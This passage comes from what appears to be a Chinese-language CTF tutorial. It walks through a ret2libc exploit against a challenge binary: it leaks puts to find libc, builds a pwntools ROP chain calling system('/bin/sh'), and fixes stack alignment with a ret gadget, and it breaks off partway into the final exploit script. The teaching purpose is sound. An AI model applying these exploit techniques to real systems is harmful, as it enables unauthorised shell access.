 果然成功了，再來一次：

#[main again!](/img/posts/crystal/pwn-intro/thelib-again.png)

再來就是要最關鍵的開 shell 方程式！我們要用第二次的 ROP chain 創造出 `system('/bin/sh');`，因此需要先知道 `puts()` 在提供的 libc 中的位置，進而算出 `system()` 在哪。同時，還要找到 `'/bin/sh'` 字串的位置，能用 libc 當然最好，沒有的話就要自己想辦法寫入記憶體中。

不同版本跟 distribution 的 linux 會用到不同的 libc，而不同的 libc 中函數與變數的 offset 也不同，所以要準確知道目標系統上運行的 libc 版本才能計算出對的地址。這題之所以附上一個 libc .so 檔也就是為了讓我們可以從 libc 版本明確算出函數位置。如果沒有附的話，通常也可以透過其他檔案，例如 Dockerfile 用的 image 來推論，然後用一些線上的資料庫查詢 offset：[libc database search](https://libc.blukat.me/)、[libc.rip](https://libc.rip/)、[libc nullbyte](https://libc.nullbyte.cat/)

要知道 libc 中函數位置也有手動跟 pwntools 兩種方式。

手動的話可以用 `readelf` 來查詢：

#[libc offset](/img/posts/crystal/pwn-intro/thelib-offset.png)

用 pwntools 的話簡單一些：

```python
libc = ELF("libc-2.31.so")
libc.address = u64(p.recv(8)[:6] + '\x00\x00') - libc.sym['puts'] 

system = libc.sym["system"]
exit = libc.sym["exit"]
binsh = next(libc.search("/bin/sh")) 
```

萬事俱備，只欠東風，ROP chain 兜起來看看（`exit()` 只是讓開的 shell 可以優雅結束，沒有其實也沒關係）。記得 local 測試的時候要把 libc 換成自己的，可以用 `ldd the_library` 找到對應的 libc.so，然後替換掉剛剛在 pwntools 設定的 ELF：

```python
# use YOUR local libc!!
# ldd the_library: libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f1e17b29000)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
...
buf = b'A'*552 + p64(poprdi) + p64(binsh) + p64(system) + p64(exit)
p.sendline(buf)
p.interactive()
```

完成啦！跑起來看看！

#[alignment](/img/posts/crystal/pwn-intro/thelib-align.png)

咦，怎麼又是 EOF 然後 segfault？

在 64 bit 的環境呼叫 libc 函數，例如 `system()` `printf()` 的時候，如果記憶體沒有 16 byte 對齊，就會在 `movaps` 指令發生 segfault。你可以在 gdb 裡跟進看看執行到 `system()` 的時候 `rsp` 尾數是不是 0 ，不是的話就表示現在的 stack 並不符合 alignment。更多常見的小陷阱可以參考這個很棒的 ROP 教學網站：[ROP Emporium](https://ropemporium.com/guide.html#Common%20pitfalls)

要修復這個問題很簡單，我們可以在前面加一個 `ret;` 的 gadget，等效做一次 nop 把後面的 ROP chain 往後推一格，這樣跑到 `system()` 就會是對齊的狀態啦！

#[get SHELL](/img/posts/crystal/pwn-intro/thelib-flag.png)

exploit 如下：

```python
from pwn import *

context.os = 'linux'

p = process('./the_library')
#p= remote('challenge.ctf.games', 31125)

elf = ELF('the_library')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
#libc = ELF("libc-2.31.so")

# poprdi gadget: 0x00401493 : (b'5fc3')	pop rdi; ret
poprdi = 0x00401493
ret = 0x0040101a
```
